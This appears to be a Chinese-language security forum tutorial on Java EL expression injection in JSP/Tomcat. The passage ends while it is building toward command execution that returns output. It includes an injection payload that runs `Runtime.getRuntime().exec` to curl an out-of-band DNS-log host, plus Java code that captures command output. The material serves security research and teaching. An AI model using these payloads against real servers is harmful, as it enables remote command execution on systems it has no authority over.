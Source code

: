 EL表达式多用于JSP，官方给出的El表达式的example:  
<https://javaee.github.io/tutorial/jsf-el007.html>

可以发现，EL表达式支持基础的计算和函数调用。并且在EL表达式中还提供隐式对象以便开发者能够获取到上下文变量。基础的EL表达式可参考文章：  
[https://www.tutorialspoint.com/jsp/jsp\_expression\_language.htm](https://www.tutorialspoint.com/jsp/jsp_expression_language.htm)

下面直接进入主题，本文的环境为：  
jdk8u112  
Tomcat9.0.0M26

思路梳理
====

在EL表达式中，要做到执行`Runtime#exec`并不难，只需要一行表达式：

```jsp
${Runtime.getRuntime().exec("cmd /c curl xxx.dnslog.cn")}
```

可这样子只能做基本的检测和盲打，如果目标不出网或不知道网站绝对路径时，将不方便`EL`注入的探测。

写普通的Java代码的话，我们知道可以使用`inputStream()`来获取`Runtime#exec`的输出，然后打印出来，如下:

*`Runtime#exec` Demo*

```java
try {
    InputStream inputStream = Runtime.getRuntime().exec("ipconfig").getInputStream();
    Thread.sleep(300); //睡0.3秒等InputStream的IO，不然`availableLenth`会是0
    int availableLenth = inputStream.available();
    byte[] resByte = new byte[availableLenth];
    inputStream.read(resByte);
    String resString = new String(resByte);
    System.out.println(resString);
} catch (Exception e) {
    e.printStackTrace();
}
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-2fbe2ec97314bf1b8b3c85ca572f116b79df444a.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-2fbe2ec97314bf1b8b3c85ca572f116b79df444a.png)

不过EL表达式的实现其实是由中间件（Tomcat）进行解析，然后反射调用的。所以实际上写EL表达式只能写**函数调用**，不能在EL表达式中写诸如 `new String();`、`int a;` 这些操作。

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-836cd7dbcc58177a66224b340b77ed018f2ed68c.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-836cd7dbcc58177a66224b340b77ed018f2ed68c.png)

**但正常函数调用是能用的，比如本节开头执行`Runtime#exec`的表达式。**

EL表达式中有许多隐式对象，如`pageContext`，可以通过这个对象保存属性，如：

[![](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-5061fd4fde1b7137396b43a4d4b4579dfe5aebd4.png)](https://shs3.b.qianxin.com/attack_forum/2021/11/attach-5061fd4fde1b7137396b43a4d4b4579dfe5aebd4.png)
